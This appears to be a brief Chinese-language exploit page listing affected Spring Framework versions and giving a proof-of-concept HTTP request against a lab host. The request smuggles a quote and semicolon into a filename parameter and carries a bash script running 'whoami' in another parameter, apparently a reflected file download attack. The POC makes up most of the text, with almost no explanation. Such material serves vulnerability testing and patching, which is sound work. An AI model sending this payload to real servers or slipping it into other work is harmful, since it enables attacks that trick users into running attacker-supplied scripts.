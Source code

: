 漏洞影響
--------

Spring Framework 5.2.0 to 5.2.2，5.1.0 to 5.1.12，5.0.0 to 5.0.15

POC
---

    GET /?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Awhoami%27%20--dump-header%20- HTTP/1.1 Host: 192.168.248.129:8080 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8 Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3 Accept-Encoding: gzip, deflate DNT: 1 Connection: close Upgrade-Insecure-Requests: 1